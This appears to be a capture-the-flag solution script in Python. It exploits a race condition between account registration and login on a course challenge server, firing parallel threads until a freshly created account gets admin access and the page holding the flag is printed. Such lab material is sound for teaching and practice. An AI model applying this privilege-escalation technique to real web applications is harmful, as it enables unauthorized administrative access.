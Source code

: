 ```python
# First of all we register a new account, the login and request the index page (so the challenges).
# Eventually we will win the race condition for an account, and if yes, we print the response: in this way 
# we access as admin the index page, so we are shown ALL the challenges, and not only the enabled ones.

# This script is higly based on the one written in class, but with some crucial modifications. 

# All links
reg_url = 'http://actf.jinblack.it:4007/register.php'
log_url = 'http://actf.jinblack.it:4007/login.php'
index_url = 'http://actf.jinblack.it:4007/index.php'

# Generate random strings for username and pwd
def rand_string(N=10):
	return ''.join(random.choices(string.ascii_uppercase + string.digits, k=N))

# Registration request
def register(u,p1,p2):
	# by looking at the network we see this useless parameter reg_user 
	data = {"username":u, "password_1": p1, "password_2": p2, "reg_user": ""}
	r = requests.post(reg_url, data = data)

	if "Registration Completed!" in r.text:
		return True
	return False

# Login and Challenges request
def login(u, p):
	with requests.Session() as s:
		# by looking at the network we see this useless parameter log_user 
		data = {"username":u, "password": p, "log_user": ""}
		r = s.post(log_url, data = data)

		if "Login Completed!" in r.text:
			x2 = s.get(index_url)
	
			if "flag{" in x2.text:
				print(x2.text)
				sys.exit(0)


# Just try to win the race
while True:
	u = rand_string()
	p = rand_string()

	r = threading.Thread(target=register, args=(u, p, p))
	r.start()

	l = threading.Thread(target=login, args=(u, p))
	l.start()

	time.sleep(0.1)
```
